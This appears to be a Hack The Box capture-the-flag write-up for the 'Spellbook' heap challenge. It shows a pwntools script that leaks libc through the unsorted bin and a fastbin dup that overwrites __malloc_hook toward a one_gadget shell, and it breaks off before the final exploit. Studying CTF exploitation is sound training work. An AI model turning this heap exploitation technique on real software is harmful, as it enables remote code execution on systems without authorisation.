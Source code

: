 # Spellbook
> Write-up author: jon-brandy

## Lessons Learned:
- Leak main arena address by freeing a chunk to unsorted bin.
- Utilizing Heap Overflow for fastbin attack lead to RCE.

## DESCRIPTION:
In this magic school, there are some spellbound books given to young wizards where they can create and store the spells they 
learn throughout the years. There are some forbidden spells that can cause serious damage to other wizards and are not allowed. 
Beware what you write inside this book. Have fun, if you are a true wizard after all..

## HINT:
- NONE

## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/079264de-f052-44f2-bbc2-994e89cc9ae8)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ac148f78-c617-47bd-bc9c-dbd02fe1facd)


2. Upon reviewing the main() functions, we found 4 function call that seems to be our interest. Those are **add()**, **delete()**, **edit()**, and **show()**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3dd271bb-f89a-4e64-bdf3-57a392a7be7b)


3. Great! Let's review the **add()** function first.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/58851af2-e2d8-42e6-992a-b16cff1399f7)


4. Based from the code above, everytime we allocate a chunk and it's size, a new chunk with 0x30 sized field is also created. Let's prove that by allocate a small size of chunk.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/911fbc71-1d53-49dd-9d58-d338f3e91caa)


5. Now let's review the **delete()** function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf0bd5df-e0ce-45da-b923-29c49a2f351c)


6. Noticed the **__ptr** and **__ptr->sp** is freed but is not set to NULL afterwards. Hence we can still use the chunk later, it's introduce **Use After Free** vuln.
7. Remembering at the **add()** function, we can allocate up to 1000 bytes and there is Use After Free vuln at the **delete()** function. We can leak main arena libc address by freeing size above a fastbin range, so it shall fell to the unsorted bin. Using UAF, we might could obtain RCE.
8. Now let's review the **show()** function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d269956-3cca-4a3b-893b-f56bcd0600ef)


9. Nothing interesting here, it just prints all the data we sent before.
10. BUT, it introduces another vuln. A Format Strings Bug (FSB).
11. We can use an alternate way to leak libc address, by using this vuln.
12. Now let's analyze the **edit()** function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/041c506d-dcb5-4d9a-a7af-dc716ce2aa05)


13. Found a heap overflow vuln at the second input, remembering the smallest size of chunk we can allocate using malloc is 0x20 sized field. Hence if we allocate above 0x30 sized field and we use **edit()** function to fill our chunk again but it only accepts 0x30, it triggers heap overflow then and we can overwrite metadata of chunk that are adjacent with it.
14. Great! Seems we already identified all the vuln, our objective is to do fastbin attack (fastbindup) which lead to RCE.
15. Let's start by writing the main arena's libc address to the unsorted bin. I allocate 0x200 chunk's size to make sure it outside of the fastbin range so it fell to unsorted bin when freed.

> TEMPORARY SCRIPT

```py
from pwn import *
import os
os.system('clear')

exe = './spellbook'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'INFO'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def malloc(index: int, input_type: bytes, size: int, data: bytes):
    sh.sendlineafter(b'>> ', b'1')
    sh.sendlineafter(b'entry: ', str(index))
    sh.sendlineafter(b'type: ', input_type)
    sh.sendlineafter(b'power: ', str(size))
    sh.sendlineafter(b': ', data)

def show(index: int):
    sh.sendlineafter(b'>', b'2')
    sh.sendlineafter(b':', f'{index}')

def edit(index: int, input_type: bytes, data: bytes):
    sh.sendlineafter(b'>> ', b'3')
    sh.sendlineafter(b'entry: ', str(index))
    sh.sendlineafter(b'type: ', input_type)
    sh.sendlineafter(b': ', data)

def free(index: int):
    sh.sendlineafter(b'>> ', b'4')
    sh.sendlineafter(b'entry: ', str(index))

sh = start()

malloc(0, b'A' * 8, 0x200, b'A' * 8)
malloc(1, b'B' * 8, 0x68, b'B' * 8) # allocate another small junk to prevent consolidation with the top chunk.

free(0)
show(0)

gdb.attach(sh)

sh.interactive()
```

> RESULT - It fell to unsorted bin and not consolidate with the top chunk.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0c58b24a-6bb0-40a2-8714-a11087e5c191)


16. Remember that it also freed 0x30 sized chunk to the fastbin.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/08987bcb-c4ee-45bf-a00b-64c722fb2415)


17. By showing the data chunk at index 0, we can obtain the libc main arena address.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7c48594f-7eee-4db1-bde1-e4292945ed14)


> UNPACK RESULT & LIBC BASE CALCULATION

```py
sh.recvuntil(b':')
sh.recvuntil(b':')

get = unpack(sh.recvline().strip().ljust(8, b'\x00'))
log.success(f'MAIN ARENA --> {hex(get)}')

## Calculating libc base.

libc.address = get - 0x3c4b78
log.success(f'LIBC BASE --> {hex(libc.address)}')
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ca65bb28-f0b0-43e6-83e4-8efad5fc043d)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/eaf26c75-da6e-4c0c-80bc-72fad92849a3)


18. Now let's set up our fastbin attack. We can start by allocate another chunk with 0x68 size field (it's the size that fit the libc.sym.system).
19. Then free chunk index 2 and 1.

> RESULT - Chunk index 2 and 1 fell to the unsorted bin.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9cb3a65e-18ce-4434-ac93-1f55a0988b10)


20. Great! Now let's utilize the heap overflow vuln to overwrite the FD of chunk 2 to **__malloc_hook()**.
21. But to do this, we need to identify the correct offset, because we need to have 0x7f as the size field (because will be used to drop libc.sym.system or one_gadget).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cd1191e8-1ee2-457d-85e4-5b452d266c19)


22. It's NULL, let's traverse up gain the correct offset.
23. Long story short, found the correct offset at **-35**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b25ad19a-e644-4e5f-b75d-b1ab69ba4886)


24. Anyway there's an alternative way to obtain the correct offset, by substracting the **__malloc_hook()** with fake fast chunk.

> using fake fast chunk

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/829372e3-874f-4b90-a1e1-559e3e25eadf)


25. However it's clear that the offset should be **-35**. Let's edit the second chunk and modify the data chunk to **__malloc_hook() - 35**.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8a2a0e34-8df7-4e65-a4f5-ef4943169a09)


26. Alternatively, we can check the FD of it's chunk.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8b077fef-be09-43f8-b1c5-18d8750a40f6)


27. The FD is already filled with **__malloc_hook() - 35**.
28. However I forgot to change our chunk size at index 1 to other than 0x68 (so it does not interfere with our RCE setup), this time let's change it to 24.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c73ecd84-b5b0-4678-8435-996c997523e3)


30. Great! Now let's allocate 1 junk chunk until we reached chunk **__malloc__hook() - 35**. 
31. Now this time, after we write **__malloc_hook()-35** to the 0x70 bin, we want to overwrite it to `system("/bin/sh")` using one_gadget.
33. So then, at the time we want to request malloc, shell is dropped.
33. AGAIN, we need to identify the correct offset to drop one_gadget.
34. The simplest way to find the offset is by allocting another 1 junk data with cyclic pattern, it shall fell to segfault anyway if we allocate 0x68 and sends 0x67.

> RESULT


